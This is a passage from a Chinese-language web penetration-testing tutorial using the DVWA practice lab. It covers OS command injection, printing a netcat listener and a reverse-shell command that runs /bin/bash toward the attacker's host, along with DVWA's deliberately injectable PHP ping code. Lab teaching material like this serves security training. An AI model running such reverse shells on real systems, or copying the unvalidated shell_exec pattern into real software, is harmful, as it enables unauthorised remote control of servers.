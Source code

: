 通过反弹TCP Shell控制服务器，而访问或错误日志中没有任何痕迹，因为通信在TCP而不是在HTTP。





### 2. 利用OS命令注入



##### 操作步骤

1. 在能执行命令的漏洞中，或许使用上面的webshell漏洞
2. 通过Netcat连接到服务器

```shell
# 主机打开监听
nc -lp 1691 -v
# 目标执行反向连接
nc.traditional -e /bin/bash 主机 1691
```



**但是此处尝试连接不上。**



##### 工作原理

就像 SQL 注入的例子那样，命令注入漏洞的来源于弱输入校验机制，以及使用用户提供的数据来拼接之后会用做 OS 命令的字符串。如果我们查看刚刚攻击的页面源代码（每个 DVWA 页面的右下角会有个按钮），会看到这些：

```php
<?php
if( isset( $_POST[ 'submit' ] ) ) {

    $target = $_REQUEST[ 'ip' ];

    // Determine OS and execute the ping command.    
    if (stristr(php_uname('s'), 'Windows NT')) {
        $cmd = shell_exec( 'ping  ' . $target );        
        echo '<pre>'.$cmd.'</pre>';            

    } else {             
        $cmd = shell_exec( 'ping  -c 3 ' . $target );        
        echo '<pre>'.$cmd.'</pre>';        
    }    
} 
?>
```

我们可以看到，它直接将用户的输入附加到 ping 命令后面。我们所做的仅仅是添加一个分号，系统的 shell 会将其解释为命令的分隔符，以及下一个我们打算执行的命令。

在成功执行命令之后，下一步就是验证服务器是否拥有 Netcat。它是一个能够建立网络连接的工具，在一些版本中还可以在新连接建立之后执行命令。我们看到了服务器的系统拥有两个不同版本的 Netcat，并执行了我们已知支持所需特性的版本。

之后我们配置攻击系统来监听 TCP 1691 端口连接（也可以是任何其它可用的 TCP 端口），然后我们让服务器连接到我们的机器，通过该端口并在连接建立时执行`/bin/bash`（系统 shell）。所以我们通过连接发送的任何东西都会被服务器接收作为 shell 的输入。
